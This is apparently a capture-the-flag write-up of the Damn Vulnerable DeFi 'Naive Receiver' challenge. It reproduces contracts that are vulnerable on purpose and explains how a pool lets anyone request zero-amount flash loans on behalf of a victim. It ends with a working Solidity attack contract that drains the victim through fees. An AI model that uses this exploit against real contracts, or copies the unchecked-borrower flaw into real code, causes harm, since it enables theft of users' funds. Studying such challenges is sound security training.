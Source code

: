 #+AUTHOR: Francesco Cannarozzo
* Naive Receiver
  ../contracts/naive-receiver
** Statement
   as an external attacker, target an user-deployed contract interacting with the pool as to empty its funds.
   Better if in a single transaction.
** Files
*** NaiveReceiverLenderPool.sol
**** Code
     #+BEGIN_SRC solidity
     // SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "@openzeppelin/contracts/utils/Address.sol";

/**
 * @title NaiveReceiverLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract NaiveReceiverLenderPool is ReentrancyGuard {

    using Address for address;

    uint256 private constant FIXED_FEE = 1 ether; // not the cheapest flash loan

    function fixedFee() external pure returns (uint256) {
        return FIXED_FEE;
    }

    function flashLoan(address borrower, uint256 borrowAmount) external nonReentrant {

        uint256 balanceBefore = address(this).balance;
        require(balanceBefore >= borrowAmount, "Not enough ETH in pool");


        require(borrower.isContract(), "Borrower must be a deployed contract");
        // Transfer ETH and handle control to receiver
        borrower.functionCallWithValue(
            abi.encodeWithSignature(
                "receiveEther(uint256)",
                FIXED_FEE
            ),
            borrowAmount
        );
        
        require(
            address(this).balance >= balanceBefore + FIXED_FEE,
            "Flash loan hasn't been paid back"
        );
    }

    // Allow deposits of ETH
    receive () external payable {}
}

     #+END_SRC
**** Breakdown
***** State
     not the most stateful of contracts, as it only maintains an immutable *FIXED_FEE* of 1 eth.
     the constructor is thus the default one.
***** flashLoan
      _NOTICE_
      We immediately see how the borrower is *NOT* determined by *msg.sender*, but rather specified in calldata.
      Looks fishy.

      Contract performs the usual checks, including checking that *borrower* is a contract,
      then calls *receiveEther(uint256)* from borrower contract. 
      Finally, we check that the loan has been repaid.
      _NOTICE_
      borrowAmount is never checked to be greater than 0.
*** FlashLoanReceiver.sol
**** Code
     #+BEGIN_SRC solidity
     // SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/Address.sol";

/**
 * @title FlashLoanReceiver
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract FlashLoanReceiver {
    using Address for address payable;

    address payable private pool;

    constructor(address payable poolAddress) {
        pool = poolAddress;
    }

    // Function called by the pool during flash loan
    function receiveEther(uint256 fee) public payable {
        require(msg.sender == pool, "Sender must be pool");

        uint256 amountToBeRepaid = msg.value + fee;

        require(address(this).balance >= amountToBeRepaid, "Cannot borrow that much");
        
        _executeActionDuringFlashLoan();
        
        // Return funds to pool
        pool.sendValue(amountToBeRepaid);
    }

    // Internal function where the funds received are used
    function _executeActionDuringFlashLoan() internal { }

    // Allow deposits of ETH
    receive () external payable {}
}
     #+END_SRC
**** Breakdown
***** State
      a *payable address* referring to the pool is maintained, and set via the constructor as its only argument.
***** ReceiveEther
      as the function expectrs to be only called by the pool, the initial requirement is *msg.sender* to equal *pool*.
      then *amountToBeRepaid* is set to equal *msg.value* (the flash-loaned ether), plus the fee.
      an internal  *_executeActionDuringFlashloan()* is then called, although left unimplemented.
      then, *amountToBeRepaid* is sent back to pool.
      
** Exploit
   draining the user contract is rather simple: because the pool doesn't check *msg.sender* and allows 0 as borrowAmount,
   we can simply initiate 10 requests for a flashloan borrowing 0 ether on behalf of the victim, draining its contract 
   through fee payment.

   However, by deploying our own logic, we might be able to do everything in a single transaction.

   #+BEGIN_SRC solidity
   pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/Address.sol";

contract NaiveAttack {
    using Address for address;

    address private pool;

        constructor(address payable poolAddress) {
        pool = poolAddress;
    }

    function exploit(address victim) external{
        while(victim.balance > 0) {
            pool.functionCallWithValue(
            abi.encodeWithSignature(
                "flashLoan(address,uint256)",
                victim,
                0
            ),
            0
            
        );
        }
    }
}

   #+END_SRC

   this is nicer, as the exploit works regardless of amount of ethers stored in the victim's contract.
